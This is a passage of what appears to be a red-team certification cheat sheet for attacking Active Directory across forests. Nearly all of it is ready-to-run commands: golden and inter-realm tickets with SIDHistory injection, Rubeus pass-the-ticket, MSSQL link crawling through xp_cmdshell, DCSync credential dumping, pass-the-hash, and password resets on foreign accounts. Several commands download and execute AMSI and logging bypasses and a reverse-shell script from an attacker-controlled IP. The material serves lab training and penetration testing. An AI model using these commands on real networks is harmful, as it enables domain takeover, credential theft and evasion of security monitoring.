C:\Users\Public\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:<domain> /sid:<SID> /rc4:<hash> /service:krbtgt /target:domain.local /sids:S-1-5-21-4066061358-3942393892-617142613-519 /ticket:C:\Users\Public\sharedwithdomain.kirbi" "exit"
C:\Users\Public\Rubeus.exe asktgs /ticket:C:\Users\Public\sharedwithdomain.kirbi /service:CIFS/dc.domain.local /dc:dc.domain.local /ptt
```

**With the CIFS service we can access the share**:
```powershell
dir \\dc.domain.local\eushare
```

> Access the target forest using PowerShell Remoting


**Check if SIDHistroy is enabled for the trust between the 2 Forests**:
```powershell
echo F | xcopy C:\AD\Tools\InviShell\InShellProf.dll \\dc.domain.local\C$\Users\Public\InShellProf.dll /Y
echo F | xcopy C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat \\dc.domain.local\C$\Users\Public\RunWithRegistryNonAdmin.bat /Y
winrs -r:dc.domain.local cmd
C:\Users\Public\RunWithRegistryNonAdmin.bat
```

**Check if there are any groups with SID>1000**:
```powershell
Get-ADGroup -Filter 'SID -ge "S-1-5-21-4066061358-3942393892-617142613-1000"' -Server domain.local
```


**Create an inter-realm ticket and Inject the SIDHistory**:
```powershell
C:\Users\Public\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21-3657428294-2017276338-1274645009 /rc4:<hash> /service:krbtgt /target:domain.local /sids:S-1-5-21-4066061358-3942393892-617142613-1103 /ticket:C:\Users\Public\domainnet.kirbi" "exit"
```

**Request a TGS for HTTP**:
```powershell
C:\Users\Public\Rubeus.exe asktgs /ticket:C:\Users\Public\domainnet.kirbi /service:HTTP/domain-net.domain.local /dc:dc.domain.local /ptt
winrs -r:domain-net.domain.local cmd
whoami /groups
```

   </div>
  </details>

  <details>
    <summary>MSSQL</summary>
    <div class="content" markdown="1">

**Enumerate database links**:
```powershell
Import-Module .\PowerupSQL-master\PowerupSQL.psd1
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
Get-SQLServerLink -Instance us-mssql.domain.local -Verbose
Get-SQLServerLinkCrawl -Instance us-mssql -Verbose
Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''whoami'''
```

**Open a Listener**:
```powershell
. .\powercat.ps1
powercat -l -v -p 443 -t 1000
Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.X/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.100.X/amsibypass.txt);iex (iwr -UseBasicParsing http://192.168.100.X/Invoke-PowerShellTcpEx.ps1)"'''
```

**Enable RPC Out and xp_cmdshell with SA permission**:
```powershell
Invoke-SqlCmd -Query "exec sp_serveroption @server='db-sqlsrv', @optname='rpc', @optvalue='TRUE'"
Invoke-SqlCmd -Query "exec sp_serveroption @server='db-sqlsrv', @optname='rpc out', @optvalue='TRUE'"
Invoke-SqlCmd -Query "EXECUTE ('sp_configure ''show advanced options'',1;reconfigure;') AT ""db-sqlsrv"""
Invoke-SqlCmd -Query "EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure') AT ""db-sqlsrv"""
```

**Now Try to execute commands recursively again**:
```powershell
Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''whoami'''
```

**Execute commands in a particular link database**:
```powershell
Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.x/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.100.x/amsibypass.txt);iex (iwr -UseBasicParsing http://192.168.100.x/Invoke-PowerShellTcpEx.ps1)"''' -QueryTarget db-sqlsrv
```

   </div>
  </details>

  <details>
    <summary>Foreign Security Principals (FSPs)</summary>
    <div class="content" markdown="1">
 


```powershell
iex (New-Object Net.WebClient).DownloadString('http://192.168.100.x/PowerView.ps1')
Note: Make sure to bypass AMSI before executing powershell commands
Get-ForestTrust
```

**Search for**:

- TrustType: Forest 
- TrustDirection: Bidirectional

```powershell
Find-InterestingDomainAcl -ResolveGUIDs -Domain dbvendor.local
```

> See if any *IdentityReferenceName* has *ActiveDirectoryRights* (GenericAll) to any *ObjectDN*

```powershell
Set-DomainUserPassword -Identity dbxsvc -AccountPassword (ConvertTo-SecureString 'Password@123' -AsPlainText -Force) -Domain dbvendor.local –Verbose
```

**Enumerate FSPs**:
```powershell
Find-ForeignGroup –Verbose
```

**Get-DomainUser**:
```powershell
Get-DomainUser -Domain dbvendor.local | ?{$_.ObjectSid -eq 'S-1-5-21-569087967-1859921580-1949641513-4101'}
```

**Accessing with WINRS**:
```powershell
winrs -r:db-dc.db.local -u:dbvendor\dbxsvc -p:Password@123 "whoami"
```

**Accessing with PowerShell Remote**:
```powershell
$passwd = ConvertTo-SecureString 'Password@123' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("dbvendor\dbxsvc", $passwd)
$dbdc = New-PSSession -Computername db-dc.db.local -Credential $creds
Invoke-Command -scriptblock{whoami;hostname} -Session $dbdc
```


   </div>
  </details>

  <details>
    <summary>PAM Trust</summary>
    <div class="content" markdown="1">
 


**Enumerate Foreign Security Principals**:
```powershell
Get-ADObject -Filter {objectClass -eq "foreignSecurityPrincipal"} -Server domain.local
```

**Find out which group DA it is a member of**:
```powershell
Get-ADGroup -Filter * -Properties Member -Server domain.local | ?{$_.Member -match 'S-1-5-21-2781415573-3701854478-2406986946-500'}
```

> In this case the DA is a member of the built-in administrators group on the target forest

**So we need to grab a DA access**: 
```powershell
C:\AD\Tools\Rubeus.exe asktgt /domain:<domain> /user:administrator /aes256:<hash> /dc:<dc> /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
echo F | xcopy C:\AD\Tools\InviShell\InShellProf.dll \\dc.domain.local\C$\Users\Public\InShellProf.dll /Y
echo F | xcopy C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat \\dc.domain.local\C$\Users\Public\RunWithRegistryNonAdmin.bat /Y
winrs -r:dc.domain.local cmd
C:\Users\Public\RunWithRegistryNonAdmin.bat
```

**Check if PAM trust is enabled**:
```powershell
Get-ADTrust -Filter {(ForestTransitive -eq $True) -and (SIDFilteringQuarantined -eq $False)}
```

**Search for**:

- ForestTransitive : True
- SIDFilteringForestAware : False
- the DistinguishedName


**Use the privileges of DA to extract credentials of DA of the target Forest**:
```powershell
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:domain\Administrator /domain:domain.local" "exit"
C:\AD\Tools\Rubeus.exe asktgt /domain:domain.local /user:administrator /aes256:<hash> /dc:<dc> /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
echo F | xcopy C:\AD\Tools\InviShell\InShellProf.dll \\dc.domain.local\C$\Users\Public\InShellProf.dll /Y
echo F | xcopy C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat \\dc.domain.local\C$\Users\Public\RunWithRegistryNonAdmin.bat /Y
winrs -r:dc.domain.local cmd
C:\Users\Public\RunWithRegistryNonAdmin.bat
```

**Enumerate other Forests**:
```powershell
Get-ADTrust -Filter {(ForestTransitive -eq $True) -and (SIDFilteringQuarantined -eq $False)} -Server production.local
```

**Search for**:

- ForestTransitive : True
- SIDFilteringForestAware : True


**Check the membership of Shadow Security Principals**:
```powershell
Get-ADObject -SearchBase ("CN=Shadow Principal Configuration,CN=Services," + (Get-ADRootDSE).configurationNamingContext) -Filter * -Properties * | select Name, member, msDS-ShadowPrincipalSid | fl
```

**Obtain the IP of Forest**:
```powershell
Get-DnsServerZone -ZoneName production.local |fl *
```

**Modify WSMan Trustedhosts property**:
```powershell
Note: Run from an elevated shell
Set-Item WSMan:\localhost\Client\TrustedHosts * -Force
```

**Use PowerShell Remoting**:
```powershell
C:\AD\Tools\SafetyKatz.exe "sekurlsa::opassth /user:administrator /domain:domain.local /ntlm:<hash> /run:powershell.exe" "exit"
Enter-PSSession 192.168.102.1 -Authentication NegotiateWithImplicitCredential
```

   </div>
  </details>

  <details>
    <summary>Mindmaps</summary>
    <div class="content" markdown="1">
 

AD Mindmap:

![Alt text](/assets/images/posts/crte/6.png){: .align-center}

AD Recommendations:

![Alt text](/assets/images/posts/crte/7.png){: .align-center}

DACL:

![Alt text](/assets/images/posts/crte/8.png){: .align-center}

Bypass AV:

![Alt text](/assets/images/posts/crte/9.png){: .align-center}

Bloodhound Collector:

![Alt text](/assets/images/posts/crte/10.png){: .align-center} 

  </div>
  </details>
</div>

